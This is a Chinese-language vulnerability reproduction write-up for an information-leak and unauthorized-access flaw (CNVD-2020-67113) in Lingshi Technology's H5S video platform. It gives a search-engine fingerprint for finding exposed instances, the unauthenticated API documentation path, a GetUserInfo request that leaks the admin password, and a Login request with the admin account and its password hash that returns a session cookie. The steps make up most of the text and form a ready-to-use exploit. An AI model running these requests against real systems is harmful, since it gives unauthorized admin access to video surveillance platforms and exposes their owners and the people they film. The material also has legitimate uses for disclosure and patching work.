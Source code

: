 # 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞 CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。 零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

```
零视科技 H5S视频平台
```

## 网络测绘

```
title="H5S视频平台|WEB"
```

## 漏洞复现

登录页面

![image-20220525151716667](images/202205251517010.png)

API文档可以未授权访问

```
/doc/api.html
```

![image-20220525151757329](images/202205251517406.png)

存在用户账号密码泄漏的接口

```
/api/v1/GetUserInfo?user=admin&session=
```

![image-20220525151838220](images/202205251518256.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```
/api/v1/Login?user=admin&password=827ccb0eea8a706c4c34a16891f84e7b
```

![image-20220525151916076](images/202205251519118.png)

请求成功后访问主页面

![image-20220525152043207](images/202205251520302.png)
